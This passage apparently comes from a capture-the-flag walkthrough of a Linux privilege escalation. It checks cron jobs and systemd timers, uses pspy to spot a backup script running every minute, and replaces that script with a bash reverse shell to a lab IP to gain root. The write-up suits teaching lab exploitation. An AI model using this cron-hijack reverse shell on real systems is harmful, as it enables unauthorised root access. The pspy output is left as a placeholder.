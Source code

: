 Run `crontab -l` to see all the cron jobs associated w/ the current user (grimmie). Unfortunately, there are none. 
#### Systemd
Next we can check if there are any 'timers' w/ [systemd](/computers/linux/linux-processes.md). Systemd is the service manager for linux and can be used to start and stop processes, etc.. To interact w/ systemd we use the `systemctl` command.

To list all of the systemctl timers, we use the command `systemctl list-timers`.
```bash
grimmie@academy:~$ systemctl list-timers
NEXT                         LEFT         LAST                         PASSED       UNIT           
Sat 2023-10-07 14:39:00 EDT  1min 1s left Sat 2023-10-07 14:09:01 EDT  28min ago    phpsessionclean
Sun 2023-10-08 00:00:00 EDT  9h left      Sat 2023-10-07 00:00:01 EDT  14h ago      logrotate.timer
Sun 2023-10-08 00:00:00 EDT  9h left      Sat 2023-10-07 00:00:01 EDT  14h ago      man-db.timer   
Sun 2023-10-08 04:45:10 EDT  14h left     Sat 2023-10-07 08:00:01 EDT  6h ago       apt-daily.timer
Sun 2023-10-08 06:06:18 EDT  15h left     Sat 2023-10-07 06:58:01 EDT  7h ago       apt-daily-upgra
Sun 2023-10-08 11:56:02 EDT  21h left     Sat 2023-10-07 09:10:01 EDT  5h 27min ago systemd-tmpfile

6 timers listed.
```
There are some timers, but none seem to be related to our backup file.
#### psypy
[psypy](../../../cybersecurity/TTPs/actions-on-objective/tools/psypy.md) is a tool developed by DominicBreuker on GitHub. It allows us to monitor linux processes *without root permissions* w/ live updates. Other linux tools like `top`, `lsof`, and `ps aux` can also be used.
##### Usage
To use psypy as Grimmie we need to get it on the target machine. To do this, first we need to download and install it from the [psypy repo](https://github.com/DominicBreuker/pspy)  on our own machine, then serve it using [HTTP](/www/HTTP.md).

Once it's served, we can `cd` into `/tmp` where `backup.zip` is and use `wget` to download it on the target machine. Now, change the permissions of `pspy64` so we can execute it using `chmod +x pspy64`. Now we can run it:
```bash
./psypy64
#####
## PLACEHOLDER
##
##
##
```
Scanning the output, we can see that `backup.sh` is being ran every minute.
### 2nd RevShell
Now that we've verified that `backup.sh` is being executed, we can manipulate that to get another shell, but this time *with root permissions and access*.
#### Our bash script:
A simple script to achieve a shell using [bash](/coding/languages/bash.md) is the following:
```bash
!#/bin/bash

bash -i >& /dev/tcp/10.0.2.4/44445 0>&1
```
Use `nano` to edit `backup.sh`, get rid of the original code and replace it with this shell code. *Before saving the file* make sure you have another instance of [netcat](../../../cybersecurity/TTPs/exploitation/tools/netcat.md) up and listening to the correct port.
